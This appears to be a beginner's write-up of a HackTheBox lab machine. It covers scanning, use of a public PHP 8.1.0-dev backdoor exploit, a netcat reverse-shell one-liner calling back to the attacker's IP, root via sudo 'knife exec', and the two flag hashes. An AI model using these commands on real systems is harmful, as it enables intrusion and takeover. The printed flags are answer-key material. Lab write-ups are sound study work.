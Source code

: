 This is my second box I will be attempt to pwn on HackTheBox. Let's get into it!

I did an nmap scan of the box's ip. The results showed that ports 22 and 80 were open. Specifically, port 80 was being used for an Apache web server. This is probably te best lead to go on.

        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

I navigated to the web server and was greeted by an apparent medical site for a company called EMA. The web site was very bare bones. In fact, nothing on the web page was interactable.

I was at a lost at what to do, so I did some googling and learned about gobuster. It's a package that attempts directory traversal through a wordlist. The exact command I used was: 

        gobuster dir -u 10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt
                
I found that /server-status was a valid directory, but I didn't have permissions to access it. Directory enumeration ended up to be a dead end.


Next, I decided to take a look at the web server using inspect element. By looking at the header of 10.10.10.242 in the network tab, I was able to see that the website was being powered by PHP/8.1.0-dev.
I searched for exploits regarding that PHP version and came across this: https://www.exploit-db.com/exploits/49933. Pretty sick find.

After running the code, I got a shell. I ran "id" and found that I was logged in as a user named "james". I ran the "ls" command and saw listed directories. I tried to navgate through the directories but that didn't work. However, other commands seemed to be working fine. I decided to use a reverse shell to see if that would allow me to traverse through directories.

I looked at this website: https://pentestbook.six2dez.com/exploitation/reverse-shells for commands that can be used to create reverse shells. I used the first command underneath the bash section: 

        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.57 1337 >/tmp/f
        
and generated a reverse shell.

The reverse shell allowed me to navigate through the directories! I went to /home/james and saw a file called user.txt. That's the first flag: 17c3bb751e9961c0cbc0e1de916a4bd9

Now I had to do some privesc to get root. I tried sudo -l and saw this pop up:
User james may run the following commands on knife:
        
        (root) NOPASSWD: /usr/bin/knife

I ran knife -h to see what the available options were, but I didn't expect the help page to be so massive. A command that caught my eye was "knife exec". According to the knife documentation (https://docs.chef.io/workstation/knife_exec/), this command is able to run Ruby scripts. The syntax for running Ruby scripts is: 

        knife exec -E 'RUBY CODE'

I tried to figure out how to use Ruby to elevate privileges, but was not able to grasp most of it. I am still very new to scripting! I decided to change tactics.

I decided to go on gtfobins.github.io. This site is really nifty as it provides a massive amount of ways to use binaries to escalate priviliges. I searched up knife and found this code:

        sudo knife exec -E 'exec "/bin/sh"'
                
Since this knife binary is able to be run as sudo by james, this command makes it so that the sudo privileges are not dropped after running the command, essentially granting root access. 

After running the command, I ran "whoami" and saw that I was now the root user. I navigated to the root folder and got the root.txt hash: 449e1149cf6e5a01d86acfe53a80780d.

Overall, I can see why this box had a difficult rating of "easy." While attempting to solve the box, I got stuck in many places because I wasn't sure what exactly I was supposed to be looking for. However, now that I am familiar with the process, I can see how each of the steps from attaining a foothold to escalating privileges make a lot of sense.
